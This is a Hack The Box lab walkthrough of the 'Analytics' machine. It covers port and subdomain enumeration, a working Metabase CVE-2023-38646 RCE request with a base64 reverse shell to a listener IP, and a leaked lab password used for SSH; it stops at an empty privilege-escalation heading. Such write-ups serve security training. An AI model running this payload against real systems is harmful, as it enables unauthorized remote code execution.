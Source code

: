 # HTB - Analytics

### TL;DR
This is an Ubuntu 22.04 host running an http server on port 80. The vulnerable web application running is metabase, and using the appropriate exploit rce can be gained. For escalation, a kernel vulnerability can be abused.

__Keywords:__<br>
metabase, GameOver(lay)<br>

__References:__<br>
https://www.cvedetails.com/cve/CVE-2023-38646<br>
https://www.cvedetails.com/cve/CVE-2023-2640<br>
https://www.cvedetails.com/cve/CVE-2023-32629<br>
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/<br>
https://github.com/securezeron/CVE-2023-38646<br>
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629<br>
<br>
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target --top-ports 1000 -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:15 EDT
Nmap scan report for analytical.htb (10.129.136.15)
Host is up, received user-set (0.35s latency).
Not shown: 569 filtered tcp ports (no-response), 429 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```
Discover hidden subdomains with `ffuf`
```markdown
> ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154  -t 100 -u http://analytical.htb -H "Host: FUZZ.analytical.htb" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://analytical.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.analytical.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 154
________________________________________________

data                    [Status: 200, Size: 77883, Words: 3574, Lines: 28]
```
Browsing the hidden subdomain at http://data.analitycal.htb we find a login portal for a metabase service. Searching for metabase vulnerabilities we find out there is a vulnerability (https://www.cvedetails.com/cve/CVE-2023-38646) in the `/api/setup/validate` endpoint, which can lead to rce.
<br>
<br>
### PHASE 2. User
Search for a poc in github for this cve (https://github.com/securezeron/CVE-2023-38646). Analyzing the poc, we see first step is to obtain setup token, for this, just query the `/api/session/properties` endpoint and find `setup-token` field. Then, to obtain rce, we query the `api/setup/validate` endpoint with the setup token and the appropriate payload.

We can do this ourselves with burpsuite.

![analytics1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9512d67d-0565-48bb-8e77-cca05f62f8b9)

So the setup token is `"setup-token" : "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`. For the payload, just use a base64 `sh -i` shell and query the endpoint building a post request with burpsuite.
```markdown
POST /api/setup/validate HTTP/1.1 Host: data.analytical.htb Content-Type: application/json Content-Length: 818 

{       "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":
        {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules":
                {},
                "details":
                {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjEvMTkxOSAwPiYxCg==}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
        "name": "an-sec-research-team",
        "engine": "h2"
        }
}
```

![analytics2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/440a1690-57fa-4ec2-9ab5-2568bcfec630)

If this does not work, just use the poc hardocding the shell in base64 within the poc source code.
```markdown
> python3 exploit.py --rhost data.analytical.htb --lhost <listener ip> --lport 9001
```
After issuing the exploit, a sh shell is received on port 9001.
Continue enumerating the system.
```markdown
> uname -a && cat /etc/os-release
Linux befd7ac0fb41 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 Linux
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.18.2
PRETTY_NAME="Alpine Linux v3.18"

> whoami && id
metabase
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
We are in some kind of limited Ubuntu system, maybe a container. Looking around we find a script `/app/run_metabase.sh` to start the database where some env variables are manipulated, so let's enumerate environmental variables.
```markdown
> env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=befd7ac0fb41
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/opt
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=run_metabase.sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/app
MB_DB_FILE=//metabase.db/metabase.db
```
Clear text credentials are found here. So we can just login using them.
```markdown
> ssh metalytics@$target            
metalytics@10.129.136.15's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Sat Oct  7 23:19:29 2023 from 10.10.14.80
metalytics@analytics:~$
```

### PHASE 3. System


